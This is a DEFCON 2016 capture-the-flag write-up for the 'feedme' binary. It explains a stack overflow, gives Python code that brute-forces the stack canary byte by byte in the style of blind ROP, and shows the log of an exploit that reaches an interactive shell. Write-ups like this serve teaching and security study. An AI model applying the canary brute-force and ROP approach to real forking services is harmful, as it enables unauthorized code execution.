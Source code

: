 ```yaml
---
layout: post
title: DEFCON CTF 2016 - feedme
author: hugsy
author_twitter: _hugsy_
tags:  exploit defcon-2016 x86 brop
---
```


### Info ###

The vulnerable [file](http://s000.tinyupload.com/?file_id=04844403034783715754)
was given with the instructions:

    Don't forget to feed me
    http://www.scs.stanford.edu/brop/

Here are some info given by `gef`:
{% highlight bash %}
gef➤  !file ./feedme
./feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
gef➤  checksec
[+] checksec for '/home/vagrant/feedme'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
{% endhighlight %}

`feedme` is statically linked x86 binary that forks and then expects "to be fed"
with some input. Pretty simple, right?


### Vulnerability ###

The vulnerability in this case is easy to spot:
{% highlight bash %}
gef➤  c
Continuing.
[New process 1349]
FEED ME!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ATE 41414141414141414141414141414141...
*** stack smashing detected ***: /home/vagrant/feedme terminated

Program received signal SIGABRT, Aborted.
[Switching to process 1349]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[registers]──
$eax     0x00000000 $ebx     0x00000545 $ecx     0x00000545 $edx     0x00000006 $esp     0xffffd388 $ebp     0xffffd5f8
$esi     0xffffd518 $edi     0xffffd434 $eip     0xf7ffdba0 $cs      0x00000023 $ss      0x0000002b $ds      0x0000002b
$es      0x0000002b $fs      0x00000000 $gs      0x00000063 $eflags  [ IF ]
Flags: [ carry  parity  adjust  zero  sign  trap  INTERRUPT  direction  overflow  resume  virtualx86  identification ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[stack]──
0xffffd388│+0x00: 0xffffd5f8 → 0xffffd678 → 0x41414141		← $sp
0xffffd38c│+0x04: 0x6
0xffffd390│+0x08: 0x545
0xffffd394│+0x0c: 0x0807bed7 → cmp eax,0xfffff000
0xffffd398│+0x10: "A"
0xffffd39c│+0x14: 0x0804e3e1 → mov edx,DWORD PTR gs:0x8
0xffffd3a0│+0x18: 0x6
0xffffd3a4│+0x1c: 0xffffd3b4 → " "
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[code:i386]──
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9c	 <__kernel_vsyscall+12>  nop
0xf7ffdb9d	 <__kernel_vsyscall+13>  nop
0xf7ffdb9e	 <__kernel_vsyscall+14>  int    0x80
0xf7ffdba0	 <__kernel_vsyscall+16>  pop    ebp 		 ← $pc
[...]
{% endhighlight %}

The interesting function is at 0x08049036:

<!--more-->

![do-feedme](https://i.imgur.com/WLAWsAW.png)

This function basically will:

   1. `0x8049053-0x8049058`: call the `xread_char()` function, which will read 1
      character from stdin and store it in the stack variable (called `len`);
   1. `0x804905F-0x8049069`: use this variable as the number of byte to read from stdin in the call to
      `xread_buffer()`, and store the result in the stack buffer allocated,
      called `buf`, whose size is 0x20 bytes;
   1. `0x804907E-0x8049084`: copy the `buf` content to a bigger array (0x400 bytes) located at the
      address 0x80EBF40.
   1. `0x804909D-0x80490A7`check if the `canary` variable has been tampered with, if so leave in
      error.

So we have a traditional stack buffer overflow, where we need to bypass the
canary token.


### Exploitation ###

Before continuing, I would recommend reading the paper & slides related to the
[blind-rop technique](http://www.scs.stanford.edu/brop/) we're going to be using.

Since the child process is being forked, we know that the parent and child are
identical in every way, including the memory mapping and the canary token. So
the idea for this exploitation is to bruteforce one-by-one all the bytes from the
canary variable in stack, with the following binary logic: overwrite one byte of
the canary with a value, `X`. If we have a crash, it will mean that the canary is
corrupted, and therefore `X` is not valid. If it does not crash, then `X` is
valid, and we can reproduce this action with the following canary byte
(this is very analog to the exploitation of a colour-blind SQL
injection exploitation).

So we have this buffer:

{% highlight bash %}
+------------------------------+--------+
| A A A A A A A A A A A A A A A| 1 2 3 4|
+------------------------------+--------+
<-------- buffer -------------><-canary->
{% endhighlight %}

If we attempt to corrupt the first byte of the canary with a wrong value, our
process will be killed immediately and we will receive the message ("Child exit"):

{% highlight bash %}
+------------------------------+--------+
| A A A A A A A A A A A A A A A| X 2 3 4|
+------------------------------+--------+
<-------- buffer -------------><-canary->
{% endhighlight %}

But when the value for the byte is valid, the program will continue its
execution at 0x080490DF and display a message ("YUM, got...").
{% highlight bash %}
080490DF mov     [esp+4], eax
080490E3 mov     dword ptr [esp], offset aYumGotDBytes ; "YUM, got %d bytes!\n"
080490EA call    xprintf
{% endhighlight %}

So leaking one byte can be summed with the following Python code:

{% highlight python %}
def leak_canary_byte(s, prefix, off):
    for i in range(256):
        p = 'A'*32 + prefix + chr(i)
        xsend(s, p, len(p) )
        res = s.read_until("\n")
        res2 = s.read_until("\n")
        if res2 != "Child exit.\n":      # if we don't get the "Child exit." message, then our current value is correct
            return chr(i)
    return None
{% endhighlight %}

Once we have the value of the first byte, we resume the same operation with the
2nd and so on, until having the 4 bytes forming the canary.

{% highlight python %}
def leak_canary(s):
    can = ""
    for i in range(4):
        b = leak_canary_byte(s, can, i)
        if b is None:
            err("bail")
            exit(1)
        ok("Found canary[%d]=%.2x"%(i, ord(b)))
        can += b
    return can
{% endhighlight %}


We know control the execution flow without triggerring the `canary_fail()`
function. All we need to do is build the shellcode using regular ROP. Since the
binary is statically compiled, we have more gadgets than we need.

So wrap this all up in a
[final exploit](https://gist.github.com/hugsy/0f196cfb8c62a4c56fdbc424cb7883bf)
and you have code execution:

{% highlight bash %}
/ $ ./feedme.py                                                                                                                                                                             [18:58]
[+] Connected to 172.28.128.4:4092
[+] Leaking canary using BROP
[+] Found canary[0]=00
[+] Found canary[1]=0c
[+] Found canary[2]=77
[+] Found canary[3]=9a
[+] Using canary '0x9a770c00'
[+] Building shellcode
[+] Sending shellcode
[+] Switching to interactive...
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"   '
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)
You ran out of time, closing!
{% endhighlight %}

And find the flag `The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO`
